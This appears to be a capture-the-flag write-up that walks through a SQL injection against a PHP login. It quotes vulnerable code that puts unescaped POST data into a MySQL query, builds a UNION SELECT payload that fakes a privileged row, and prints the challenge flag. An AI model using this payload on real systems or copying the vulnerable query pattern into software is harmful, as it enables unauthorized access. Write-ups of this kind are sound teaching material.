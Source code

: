 Injection 2
===========

Using unescaped POST data in PHP for MySQL requests is very bad. Here we have
(in the source):

```PHP
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);
```

So, a user can pass in any string to `$username`, and if it contains a 
single-quote, we can execute custom SQL commands.

The database contains no data, so we must generate a fake result. To do this, 
we use a combination of **union** and **select** to create fake data:

```SQL
union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake
```
- The value 1' is just an arbitrary value for an unnamed row, so that when we 
`union` this result, it has the same number of columns as the database (which 
is apparently five).
- The value '1337' allows us to get past the user\_level check:
```PHP
if ($row["user_level"] >= 1337) {
      echo "<p>Your flag is: $FLAG</p>";
} else {
      echo "<p>Only user levels 1337 or above can see the flag.</p>";
}
```

We also use `as` to give our fake row a name.

We want to pass in this command so that `$username` has a **value** +
 **a single-quote** + _the rest of our command_. To do thsi, we now have:
```
a' union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake union select * from users where password='a
```
- The last part (union select ... where password) is so that we can keep an 
even number of single-quotes, so that the enclosing single-quote from the 
original `$query` command is matched.
- Putting it all together, when we pass in our input for `$username` (we also 
pass in the value "a" for `$password`), the query on the server will be:
```SQL
SELECT * FROM users WHERE username='a' union select * from (select 1 as id, 'a' as username, 'a' as password, 1, 1337 as user_level) as fake union select * from users where password='a'
```

Our flag is `flag_nJZAKGWYt7YfzmTsCV`
